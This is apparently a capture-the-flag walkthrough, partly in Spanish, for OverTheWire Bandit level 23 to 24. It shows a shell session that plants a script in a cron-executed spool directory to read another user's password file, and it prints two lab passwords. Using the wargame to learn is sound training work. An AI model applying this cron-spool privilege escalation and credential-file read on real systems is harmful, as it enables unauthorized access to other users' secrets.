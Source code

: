 # Bandit Level 23 → Level 24

## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel


bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

>> actualizad hasta aqui


# Solucion
- Identificamos la funcinalidad a vulnerar
```
bandit23@bandit:~$ ls -la /etc/cron.d
total 36
drwxr-xr-x  2 root root 4096 Jul 11  2020 .
drwxr-xr-x 87 root root 4096 May 14  2020 ..
-rw-r--r--  1 root root   62 May 14  2020 cronjob_bandit15_root
-rw-r--r--  1 root root   62 Jul 11  2020 cronjob_bandit17_root
-rw-r--r--  1 root root  120 May  7  2020 cronjob_bandit22
-rw-r--r--  1 root root  122 May  7  2020 cronjob_bandit23
-rw-r--r--  1 root root  120 May 14  2020 cronjob_bandit24
-rw-r--r--  1 root root   62 May 14  2020 cronjob_bandit25_root
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder

bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done


```
- Descubrimos que el script va a la carpeta /var/spool/$myname
- Ahi ejecuta todo lo que encuentra
- Luego lo borra de inmedato


- para reslverlo tendremos que crear nuestro propio scritp en /var/spool/

```bash

bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh 
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh 
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password 
bandit23@bandit:/tmp/kd$ ls -la
total 92
drwxrwxr-x    2 bandit23 bandit23  4096 Sep  4 01:51 .
drwxrwx-wt 1957 root     root     81920 Sep  4 01:51 ..
-rw-rw-rw-    1 bandit23 bandit23     0 Sep  4 01:51 password
-rwxrwxr-x    1 bandit23 bandit23    49 Sep  4 01:50 script.sh
 
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 92
drwxrwxr-x    2 bandit23 bandit23  4096 Sep  4 01:51 .
drwxrwx-wt 1957 root     root     81920 Sep  4 01:53 ..
-rw-rw-rw-    1 bandit23 bandit23     0 Sep  4 01:51 password
-rwxrwxr-x    1 bandit23 bandit23    49 Sep  4 01:50 script.sh
bandit23@bandit:/tmp/kd$ date
Sun Sep  4 01:54:12 AM UTC 2022
bandit23@bandit:/tmp/kd$ ls -la
total 96
drwxrwxr-x    2 bandit23 bandit23  4096 Sep  4 01:51 .
drwxrwx-wt 1957 root     root     81920 Sep  4 01:53 ..
-rw-rw-rw-    1 bandit23 bandit23    33 Sep  4 01:54 password
-rwxrwxr-x    1 bandit23 bandit23    49 Sep  4 01:50 script.sh
bandit23@bandit:/tmp/kd$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$ 



```